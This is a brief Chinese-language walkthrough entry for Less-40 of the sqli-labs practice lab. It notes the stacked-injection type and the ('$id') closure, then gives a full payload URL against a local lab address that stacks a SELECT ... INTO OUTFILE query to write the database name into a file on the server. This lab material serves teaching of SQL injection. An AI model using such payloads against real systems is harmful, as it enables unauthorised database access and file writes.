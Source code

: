 ![](file/image_dc3xJOGOlm.png)

### Less-40：GET - BLIND based - string - Stacked

**注入类型**

堆叠注入

**闭合方式**

id=('\$id')

```sql
http://192.168.65.128/sqli-labs/Less-40/?id=1');
select 'Less-40',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" --+
```
